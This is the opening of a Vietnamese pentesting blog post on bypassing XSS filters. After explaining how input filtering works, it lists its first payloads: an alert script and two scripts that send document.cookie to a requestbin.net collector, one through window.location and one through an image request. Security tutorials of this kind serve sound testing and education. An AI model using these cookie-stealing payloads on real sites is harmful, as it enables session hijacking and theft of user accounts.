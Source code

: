 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## 1. Các load js nguyên thủy (Không mask) huyền thoại 

### Alert message
```<script>alert(1);</script>```

### Dùng window location
```<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>```

### Dùng image
```<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>```

